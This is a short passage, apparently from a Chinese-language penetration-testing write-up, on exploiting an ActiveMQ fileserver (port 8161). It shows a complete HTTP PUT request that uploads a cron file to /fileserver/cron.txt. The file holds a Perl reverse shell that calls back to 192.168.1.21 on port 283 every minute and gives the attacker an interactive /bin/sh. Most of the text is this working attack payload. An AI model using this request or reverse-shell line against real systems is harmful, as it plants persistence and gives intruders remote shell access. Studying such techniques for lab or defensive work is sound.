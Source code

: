 然后说是cron中换行要是'\n'，不能是'\r\n'，否则crontab执行会失败







首先上传cron配置文件

```
PUT /fileserver/cron.txt HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 246

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.1.21";$p=283;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##

```

![image-20250408223508615](./assets/image-20250408223508615.png)
